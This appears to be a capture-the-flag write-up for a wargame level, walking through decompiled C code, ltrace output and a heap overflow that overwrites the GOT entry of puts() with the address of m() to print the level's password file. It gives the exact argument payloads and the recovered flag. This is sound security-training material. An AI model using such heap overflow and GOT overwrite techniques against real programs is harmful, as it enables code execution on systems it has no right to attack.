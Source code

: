 ```C
int32_t m()
{
    return printf("%s - %d\n", &c, time(nullptr));
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    int32_t *eax = malloc(8);
    *eax = 1;

    eax[1] = malloc(8);

    int32_t* eax_4 = malloc(8);
    *eax_4 = 2;

    eax_4[1] = malloc(8);
    
    strcpy(eax[1], argv[1]);    // eax[1]   = 0x0804a018
    strcpy(eax_4[1], argv[2]);  // eax_4[1] = 0x0804a038

    fgets(&c, 0x44, fopen("/home/user/level8/.pass", u"r…"));
    puts("~~");
    return 0;
}
```

- Address of puts() in GOT = 0x08049928
- Address of m()           = 0x080484f4
- eax is actually a struct that looks like:

---

```C
struct x
{
    int32_t num;
    char    *str;
}
```

--- 

(2 Structs of size 8)

eax = 0x0804a008
- eax->num   = 1;
- eax->str   = malloc(8);    (0x0804a018)

eax_4
- eax_4->num = 2;
- eax_4->str = malloc(8);  (0x0804a038)

What is the offset eax[1] until reaching eax_4[1] ?

Let's try;

```C
> ltrace ./level7 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ test

malloc(8)                                             = 0x0804a008
malloc(8)                                             = 0x0804a018
malloc(8)                                             = 0x0804a028
malloc(8)                                             = 0x0804a038
strcpy(0x0804a018, "abcdefghijklmnopqrstuvwxyzABCDEF"...) = 0x0804a018
strcpy(0x78777675, "test" <unfinished ...>)

```

0x78777675 = xwvu (in ascii)
-> So we know that we are writing on eax_4[1] after the letter t so 20 bytes.
-> then let's put the address of puts() in GOT into eax_4[1].
-> We just have to replace the address of puts by the address of m() with the second strcpy() and the address will be replace and puts() will call m().

```
argv[1] = 20 * "A" + 0x08049928
argv[2] = 0x080484f4

python3 exploit.py
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```